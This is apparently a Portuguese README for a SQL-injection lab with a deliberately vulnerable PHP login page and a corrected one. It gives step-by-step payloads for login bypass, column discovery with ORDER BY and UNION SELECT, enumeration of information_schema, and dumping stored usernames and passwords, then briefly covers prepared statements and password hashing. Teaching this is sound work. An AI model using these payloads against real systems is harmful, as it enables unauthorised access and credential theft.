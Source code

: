 SQL Injection - Exemplo de login vulnerável e um login corrigido.

obs.: Os usuários que tem a senha em hash somente logam no login.php.

Temos dois logins.

login.php - Onde as vulnerabilidades foram corrigidas.
login_vul.php - Onde você efetuara os testes abaixo, esse é o nosso login vulnerável.
Temos também uma falha no banco que permite a execução da do teste número 2.

Como Testar Corretamente a Vulnerabilidade?

Na página login_vul.php

Teste esse payload simples:

obs.: Após o payload tem um espaço, não esqueça dele.

### Teste 1 ###
Nesse teste, é adicionado ao final dois traços, informando a query sql que será montada pela aplicação que o que vem a seguir é comentario e não precisa ser executado, com isso invalidamos o retante da query.

Username: admin' --
Password: [qualquer coisa]

### Teste 2 ###
Neste teste a consulta se torna:
SELECT * FROM usuarios WHERE login = 'admin' OR '1'='1' AND senha = '...';
'1'='1' é SEMPRE verdadeiro em SQL
Isso faz com que toda a condição seja verdadeira, ignorando a verificação da senha

Username: admin' OR '1'='1
Password: x
Deve retornar o primeiro usuário da tabela

### Teste 3 ###
Caso o anterior não funcione.
Username: admin' OR 1=1 --
Password: x


Agora segue um passo a passo de todos os teste possíveis em linha de raciocinio.

Este tutorial demonstra como explorar uma vulnerabilidade de SQL Injection em um sistema de login vulnerável, usando técnicas para:

✅ Descobrir o número de colunas
✅ Identificar colunas úteis
✅ Extrair dados sensíveis (usuários, senhas, tabelas)

🔍 Passo 1: Confirmar a Vulnerabilidade
Payload básico para verificar SQL Injection:

sql

' OR '1'='1

Se o login for bem-sucedido sem credenciais válidas, o sistema é vulnerável.

Exemplo de query resultante:

sql

SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = 'qualquer';
→ Retorna todos os usuários porque '1'='1' é sempre verdadeiro.

📏 Passo 2: Descobrir o Número de Colunas (ORDER BY)
Usamos ORDER BY para determinar quantas colunas a tabela tem.

Técnica: Incrementar até dar erro
sql

' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
...  

Exemplo:

Se ORDER BY 5 funcionar, mas ORDER BY 6 der erro → 5 é o número de colunas.

🔄 Passo 3: Confirmar Colunas com UNION SELECT
O UNION SELECT exige o mesmo número de colunas da query original.

Payload genérico (substitua X pelo nº de colunas):
sql

' UNION SELECT 1,2,3,...,X--  

Exemplo para 4 colunas:

sql

' UNION SELECT 1,2,3,4--  

O que observar:

Se aparecerem números na tela (ex: 2 e 3), essas são colunas visíveis (úteis para extrair dados).

📦 Passo 4: Extrair Nomes das Tabelas (SQL Injection em INFORMATION_SCHEMA)
Se soubermos que o banco é MySQL/MariaDB, podemos listar tabelas:

Payload para listar tabelas:
sql

' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema = database()--  

Resultado esperado:

Nomes de tabelas como usuarios, clientes, produtos, etc.

🔓 Passo 5: Extrair Colunas de uma Tabela
Suponha que descobrimos a tabela usuarios. Podemos listar suas colunas:

Payload para listar colunas:
sql

' UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name = 'usuarios'--  

Resultado esperado:

Colunas como id, username, password, email, etc.

💻 Passo 6: Extrair Dados Sensíveis (Usuários e Senhas)
Agora que sabemos a estrutura, extraímos os dados:

Payload para extrair usuários e senhas:
sql

' UNION SELECT 1,username,password,4 FROM usuarios--  

Se as senhas estiverem em texto puro:
→ Aparecerão diretamente.

Se estiverem hasheadas (ex: MD5, SHA-1):
→ Podemos tentar quebrar offline com ferramentas como John the Ripper ou Hashcat.

🛡️ Como se Proteger? 
Use Prepared Statements:

php

$stmt = $pdo->prepare("SELECT * FROM usuarios WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);

Armazene senhas com hash (ex: password_hash() + password_verify())

Valide entradas (filtros, regex, escape de caracteres)

📌 Conclusão
Este tutorial mostrou como:

1️⃣ Testar vulnerabilidade (' OR '1'='1)
2️⃣ Descobrir colunas (ORDER BY e UNION SELECT)
3️⃣ Extrair tabelas e colunas (information_schema)
4️⃣ Extrair dados (usuários e senhas)
